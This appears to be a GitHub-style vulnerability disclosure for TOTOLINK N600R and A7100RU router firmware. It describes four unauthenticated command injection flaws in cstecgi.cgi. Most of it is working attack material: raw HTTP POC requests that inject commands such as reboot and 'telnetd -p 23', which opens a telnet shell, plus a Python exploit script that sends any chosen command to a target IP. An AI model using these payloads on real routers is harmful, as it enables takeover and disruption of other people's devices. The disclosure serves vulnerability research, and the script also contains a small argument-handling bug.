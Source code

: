 # TOTOlink N600R Comand Injection

### Venda

ToTolink N600R http://totolink.net/home/menu/detail/menu_listtpl/download/id/160/ids/36.html

link :http://totolink.net/data/upload/20200728/5fa781d2e6a17e1ed1cbf6f169810809.zip

Firmware: TOTOLINK_C8160R-1C_N600R_IP04291_8196D_SPI_4M32M_V4.3.0cu.7570_B20200620_ALL.web

ToTolink 7100RU:

Firmware_link: http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

Firmware: TOTOLINK_C8540R-1C_A7100RU_IP04365_MT7621AMT7615Ex2_SPI_16M128M_V7.4cu.2313_B20191024_ALL.web

### Describe

​	N600R设备存在命令执行漏洞，攻击者可以利用此漏洞获取服务器权限

​	A command execution vulnerability exists in the n600r device, which allows an attacker to gain server privileges

### Vulnerability1

#### Detail

​	Received the environment variable QUERY_STRING in the cstecgi.cgi binary file, which is the URL to visit

<img src="./img/image-20211111143526075.png" alt="image-20211111143526075" style="zoom:50%;" />

​	Later, it will be judged whether there is exportOvpn, and it is found that it can cause command injection by constructing a url request

<img src="./img/image-20211111142430082.png" alt="image-20211111142430082" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi?exportOvpn=&type=user&comand=;touch${IFS}1.txt;&filetype=gz HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

aaaaa
```

#### EXP

```
import sys
import requests
import json
command=sys.argv[1]
try:
	ip=sys.argv[1]
	port=sys.argv[2]
	command=sys.argv[3]
except:
	print "nonono! cant't do this"
	print "please use python exp.py [ip] [port] [command]"
	exit()
url="http://%s:%s/cgi-bin/cstecgi.cgi?exportOvpn=&type=user&comand=;%s;&filetype=gz"%(ip,port,command)


headers={
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://%s:%s"%(ip,port),
}


requests.post(url,headers=headers)
```



### Vulnerability2

#### Detail

​	It exists in the cstecgi.cgi file. In the function of testing Ping, JSON data can be passed in, resulting in unconditional arbitrary command execution

<img src="./img/image-20211111122344967.png" alt="image-20211111122344967" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Origin: http://192.168.0.1
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/adm/diagnosis.asp?timestamp=1636595925423
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 95

{"topicurl": "setting/setDiagnosisCfg", "actionFlag": "1", "ipDoamin": "www.baidu.com\rreboot"}
```



### Vulnerability3

#### Detail

​	The vulnerability lies in cstecgi.cgi file, there is a command injection vulnerability at the place where the language is changed, which can lead to the execution of unauthenticated commands

​	A command injection vulnerability exists in the cstecgi.cgi file where the language is changed

<img src="./img/image-20211111141004575.png" alt="image-20211111141004575" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 79
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/title.asp

{"topicurl":"setting/setLanguageCfg","langType":"cn;telnetd${IFS}-p${IFS}23;"}	
```



### Vulnerability4

#### Detail

​	The vulnerability lies in cstecgi.cgi file, there is command injection at the time of obtaining the system time, resulting in the execution of unauthenticated commands

<img src="./img/image-20211111141412938.png" alt="image-20211111141412938" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 83
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/adm/ntp.asp?timestamp=1636598045521
Cookie: SESSION_ID=2:1609945786:2

{"topicurl":"setting/NTPSyncWithHost","hostTime":"2021-11-11 10:34:09'\nreboot\n'"}
```

#### 
